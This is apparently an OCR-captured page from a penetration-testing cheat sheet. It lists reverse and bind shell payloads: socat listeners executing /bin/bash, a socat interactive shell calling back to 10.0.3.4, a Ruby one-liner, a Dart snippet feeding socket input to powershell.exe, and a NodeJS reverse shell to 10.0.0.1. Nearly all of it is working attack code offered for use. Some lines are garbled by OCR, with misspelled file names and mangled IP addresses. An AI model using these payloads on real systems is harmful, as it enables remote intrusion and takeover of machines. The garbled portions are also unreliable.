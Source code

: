 ​merge two files to create a usable pem file for socat:

```
cat bind_shett.key bind_shett.crt > bind_shett.pem

socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=e,fork EXEC:/bin
/bash

socat - OPENSSL:1e.11. e .4:443,verify=8
```

### <mark style="color:orange;">intractive shell</mark>

```
socat file:`tty`,raw,echo=0 tcp-listen:4444 → attacker
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  → host
```

## <mark style="color:red;">Ruby</mark>

```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'  
```

## <mark style="color:red;">Dart</mark>

```
import 'dart:io';
import 'dart:convert';

main() {
  Socket.connect("10.0.0.1", 4242).then((socket) {
    socket.listen((data) {
      Process.start('powershell.exe', []).then((Process process) {
        process.stdin.writeln(new String.fromCharCodes(data).trim());
        process.stdout
          .transform(utf8.decoder)
          .listen((output) { socket.write(output); });
      });
    },
    onDone: () {
      socket.destroy();
    });
  });
}
```

## <mark style="color:red;">NodeJS</mark>

```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4242, "10.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();


```